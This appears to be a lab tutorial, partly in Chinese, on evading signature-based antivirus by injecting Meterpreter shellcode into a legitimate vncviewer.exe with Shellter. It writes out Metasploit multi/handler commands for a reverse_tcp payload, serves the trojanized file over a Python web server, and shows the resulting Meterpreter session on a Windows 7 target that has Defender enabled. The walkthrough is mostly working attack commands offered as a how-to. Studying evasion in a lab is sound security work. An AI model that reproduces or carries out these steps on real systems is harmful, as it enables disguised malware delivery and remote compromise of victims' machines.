 The first thing I want to do is I'm just going to launch msfconsole to set up the handler to receive the connection once the shellcode is executed on the target.

```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 1234
run
```

We need to transfer that executable to the target. 

```
cd ~/Desktop/AVBypass
ls
sudo python3 -m http.server 80
```

The Windows 7 system has Windows Defender enabled.

I'm back on the Windows system.

```
http://10.10.10.10/vncviewer.exe
```

If I click on it, is should work exactly the way vncviewer should work. However, in the background, what's going to happen is it's going to execute the shellcode that we injected into it.

It works as intended, and a person can use this for legitimate purposes, but it had malicious shellcode injected into it. So this particular executable has not been detected by Windows Defender.

I have received a Meterpreter session on my multi/handler listener.

```
meterpreter > sysinfo
meterpreter > getuid
```

That is how to inject shellcode into a legitimate executable for the purpose of evading signature-based antivirus solutions.

# 复现视频内容
Kali Linux: 192.168.213.128

Windows 7 SP1: 192.168.213.131

[Download Shellter](https://www.shellterproject.com/download/)

这里直接下载的Shellter v7.2 Executable。在Windows 7 SP1环境下将meterpreter shellcode注入vncview。

```
C:\Users\IEUser\Downloads\shellter\shellter>dir
 Volume in drive C is Windows 7
 Volume Serial Number is 5812-32B0

 Directory of C:\Users\IEUser\Downloads\shellter\shellter

05/22/2023  10:19 PM    <DIR>          .
05/22/2023  10:19 PM    <DIR>          ..
05/22/2023  10:19 PM    <DIR>          docs
02/19/2020  11:41 PM                64 Executable_SHA-256.txt
05/22/2023  10:19 PM    <DIR>          licenses
05/22/2023  10:19 PM    <DIR>          shellcode_samples
02/19/2020  11:34 PM           691,712 shellter.exe
               2 File(s)        691,776 bytes
               5 Dir(s)  17,994,190,848 bytes free
```
